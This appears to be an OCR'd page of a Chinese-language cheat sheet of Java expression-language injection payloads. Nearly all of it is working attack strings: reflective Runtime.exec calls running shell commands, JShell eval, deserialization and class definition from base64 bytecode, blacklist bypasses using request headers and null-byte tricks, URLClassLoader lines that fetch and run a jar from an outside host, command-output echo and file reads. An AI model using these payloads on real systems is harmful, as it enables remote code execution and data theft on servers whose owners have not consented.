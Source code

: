 ```java
''.class.forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''.class.forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),new String[]{'cmd','/c','calc'})
```
## JDK9新增的shell
```java
T(SomeWhitelistedClassNotPartOfJDK).ClassLoader.loadClass("jdk.jshell.JShell",true).Methods[6].invoke(null,{}).eval('whatever java code in one statement').toString()
```
## 利用反序列化
```java
#{T(org.springframework.util.SerializationUtils).deserialize(T(com.sun.org.apache.xml.internal.security.utils.Base64).decode('rO0AB........'))}
//通spring内置的一个方法。 输入类名，字节码，classload就可以new一个类。当类中有static方法的时候。new类就会自动触发
T(org.springframework.cglib.core.ReflectUtils).defineClass('Singleton',T(com.sun.org.apache.xml.internal.security.utils.Base64).decode('yv66vgAAADIAtQ....'),T(org.springframework.util.ClassUtils).getDefaultClassLoader())
```
## 利用request传值。绕过黑名单
```java
[[${#this.getClass().getClassLoader().loadClass(#request.getHeader(111)).getDeclaredMethod(#request.getHeader(222),
#this.getClass().getClassLoader().loadClass(#request.getHeader(333))).invoke(#this.getClass().getClassLoader().loadClass(#request.getHeader(111)).getDeclaredMethod(#request.getHeader(444)).invoke(null),
#request.getParameter(1))}]]
```
## URLClassloader
```java
New java.net.URLClassLoader(New java.net.URL[]{New java.net.URL("http://xxxx/xxx.jar"}).getDeclaredMethod("exec").invoke(null)
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://dnslog.cn/xxx.jar")}).loadClass("xxx").getConstructor().newInstance().toString()
```
## 回显
```java
// 其次如果有输出点需要回显可以使用
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).....).getInputStream())
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(%27cmd%20/c%20dir%27).getInputStream())
```
## 其他绕过方式（如：%00等骚姿势绕过）
```java
T\x00(java.net.URLClassLoader).getSystemClassLoader().loadClass("java.nio.file.Files").readAllLines(T\x00(java.net.URLClassLoader).getSystemClassLoader().loadClass("java.nio.file.Paths").get("d:/logs/test.txtg"))
''.class.forName('java.nio.file.Files').getDeclaredMethods()[17].invoke(null,''.class.forName('java.nio.file.Paths').getDeclaredMethods()[0].invoke(null,'d:/logs/test.txt',''.class.forName('jav'+'a.lang.'+'Str'+'ing').getDeclaredMethods()[63].invoke('','a')))
T\x00(java.nio.file.Files).readAllLines(T\x00(java.nio.file.Paths).get('d:/logs/test.txt'),T\x00(java.nio.charset.Charset).defaultCharset())
T%00(java.nio.file.Files).readAllLines(T%00(java.nio.file.Paths).get(%27d:/logs/test.txt%27),T%00(java.nio.charset.Charset).defaultCharset())
```
## 其他的一些payload
```xml
${pageContext} // 对应于JSP页面中的pageContext对象（注意：取的是pageContext对象。）
${pageContext.getSession().getServletContext().getClassLoader().getResource("")} // 获取web路径
```